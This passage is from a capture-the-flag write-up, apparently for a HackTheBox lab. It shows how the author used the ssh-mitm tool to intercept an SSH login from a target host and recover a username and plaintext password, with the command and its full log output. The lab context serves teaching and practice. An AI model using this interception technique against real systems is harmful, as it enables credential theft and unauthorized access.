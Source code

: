 <figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

Anyways, after filling in the fields and clicking submit, we get this weird thing on a listener port:

<figure><img src="../../.gitbook/assets/image (2) (11) (1).png" alt=""><figcaption></figcaption></figure>

I thought that it would be a shell and hence ran `id`, but it quickly closed. In this case, I took a look at the traffic within `wireshark` but wasn't able to find out much. I tried out a few methods from the SSH page of Hacktricks, and found `ssh-mitm`.&#x20;

This was a program that would intercept SSH traffic and find a password, similar to what `responder` does.&#x20;

{% embed url="https://docs.ssh-mitm.at/" %}

I couldn't get the `ssh-mitm` binary to work properly, but thankfully there's a Python module for it. We can run it, then we can view the logs:

```
$ python3 -m sshmitm server --remote-host 10.129.85.79 --listen-port 2222
───────────────────────────── SSH-MITM - ssh audits made simple ─────────────────────────────
Version: 3.0.2
License: GNU General Public License v3.0
Documentation: https://docs.ssh-mitm.at
Issues: https://github.com/ssh-mitm/ssh-mitm/issues
─────────────────────────────────────────────────────────────────────────────────────────────
generated temporary RSAKey key with 2048 bit length and fingerprints:
   MD5:10:a0:ac:54:66:eb:ca:14:62:88:fe:d0:3c:c0:68:f0
   SHA256:IQjHvAVwgc+rsZSuahdUQKTfdba5dqKxLpRd39PNNhA
   SHA512:beq/m46uHTY42gBA5u7lFh0alXfK4hc68WMJNvDpEMVl8TeOGQHU89NuGDTwL466Ja//FKDF1/HQMnJBS3mA6w                                                                                          
listen interfaces 0.0.0.0 and :: on port 2222
────────────────────────────────── waiting for connections ──────────────────────────────────
[05/09/23 09:40:06] INFO     ℹ session 9a94617f-be69-49bf-90fd-765beb3fbeee   
                             created                                                         
                    INFO     ℹ client information:                             
                               - client version: ssh-2.0-paramiko_3.1.0        
                               - product name: Paramiko                                      
                               - vendor url:  https://www.paramiko.org/                      
                             ⚠ client audit tests:                                
                               * client uses same server_host_key_algorithms list for        
                             unknown and known hosts                                         
                               * Preferred server host key algorithm: ssh-ed25519            
[05/09/23 09:40:08] INFO     Remote authentication succeeded                   
                                     Remote Address: 10.129.85.79:22                         
                                     Username: cbrown                                        
                                     Password: sn00pedcr3dential!!!                          
                                     Agent: no agent
```